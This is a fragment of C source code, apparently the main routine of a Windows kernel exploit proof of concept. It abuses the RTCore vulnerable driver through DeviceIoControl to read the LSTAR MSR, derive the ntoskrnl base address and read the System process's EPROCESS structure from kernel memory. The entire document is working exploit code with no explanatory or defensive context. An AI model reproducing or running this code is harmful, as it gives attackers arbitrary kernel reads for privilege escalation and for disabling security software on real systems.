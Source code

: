 ```c
	return GetFunctionOffset;
}

int main(int argc, char* argv[]) {

	HANDLE RTCORE_DEVICE = CreateFile(
		DEVICE_NAME,
		GENERIC_READ | GENERIC_WRITE,
		0,
		NULL,
		OPEN_EXISTING, 
		FILE_ATTRIBUTE_NORMAL,
		NULL
	);

	RTCORE_MSR_READ MsrRead;
	MsrRead.Register = LSTAR_MSR;
	DWORD BytesReturned;

	DeviceIoControl(
		RTCORE_DEVICE,
		RTCORE_READMSR_IOCTL, 
		&MsrRead, 
		sizeof(MsrRead),
		&MsrRead,
		sizeof(MsrRead),
		&BytesReturned,
		NULL
	);

	// LSTAR + ntoskrnl base
	DWORD64 lstar_value = ((uint64_t)MsrRead.ValueHigh << 32) | MsrRead.ValueLow;
	printf("[+] LSTAR MSR (nt!KiSystemCall64Shadow): 0x%llx\n", lstar_value);

	DWORD64 kisystemcall64shadowOffset = 0xbac200; // ? nt!KiSystemCall64Shadow - nt
	DWORD64 ntoskrnlBase = lstar_value - kisystemcall64shadowOffset;
	printf("[+] ntoskrnl base: 0x%llx\n", ntoskrnlBase);

	// PsInitialSystemOffset
	DWORD64 PsInitialSystemProcessOffset = GetFunctionOffsetFromNtoskrnl("PsInitialSystemProcess");
	DWORD64 PsIntitialSystemProcessVA = ntoskrnlBase + PsInitialSystemProcessOffset;

	printf("[+] PsInitialSystemProcess address: 0x%016llx\n", PsIntitialSystemProcessVA);

	// Static offset (Win11 24H2)
	// CHANGE THIS FOR YOUR WINDOWS VERSION
	int offsetImageFileName = 0x338;

	DWORD64 SystemEPROCESSAddress = ReadMemoryDWORD64(RTCORE_DEVICE, PsIntitialSystemProcessVA);
	DWORD64 SystemImageFileNameAddress = SystemEPROCESSAddress + offsetImageFileName;
	printf("[+] System EPROCESS address: 0x%016llx\n", SystemEPROCESSAddress);
	printf("[+] System ImageFileName address: 0x%016llx\n", SystemImageFileNameAddress);
	DWORD64 SystemImageFileNameValue = ReadMemoryDWORD64(RTCORE_DEVICE, SystemImageFileNameAddress);
	printf("[INFO] 0x%016llx: \"%s\"\n", SystemImageFileNameAddress, PrintQwordPtrAsString(SystemImageFileNameValue));

	CloseHandle(RTCORE_DEVICE);

	return 0;
}
```
